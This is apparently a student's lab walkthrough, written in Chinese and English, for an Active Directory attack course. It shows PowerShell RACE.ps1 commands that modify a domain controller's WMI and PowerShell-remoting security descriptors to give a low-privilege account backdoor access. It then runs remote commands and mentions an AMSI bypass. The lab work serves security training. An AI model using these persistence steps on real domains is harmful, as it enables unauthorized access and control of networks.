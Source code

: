 

在DA权限shell引入RACE.ps1框架
```
PS C:\ad> . .\RACE.ps1
```

为WMI修改安全描述符，允许student366进入WMI
```
Set-RemoteWMI -SamAccountName student366 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose
```

在学生shell（重启VM生效）查看
```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```



![image-20220307215612058](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307215612058.png)



## Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI.



设置远程权限，报错
```
PS C:\ad> Set-RemotePSRemoting -SamAccountName student366 -ComputerName dcorp-dc -Verbose
Processing data for a remote command failed with the following error message: The I/O operation has been aborted
because of either a thread exit or an application request. For more information, see the about_Remote_Troubleshooting
Help topic.
    + CategoryInfo          : OperationStopped: (dcorp-dc:String) [], PSRemotingTransportException
    + FullyQualifiedErrorId : JobFailure
    + PSComputerName        : dcorp-dc
```

引入RACE.ps1，域名写全(注意：这里如果不能正常设置，enter-psssesion到DC，bypass AMSI，远程加载RACE.ps1后在DC上设置)
```
PS C:\ad> . .\RACE.ps1
PS C:\ad> Set-RemotePSRemoting -SamAccountName student366 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```


在学生shell向DC执行whoami命令
```
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```



![image-20220307221601057](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307221601057.png)
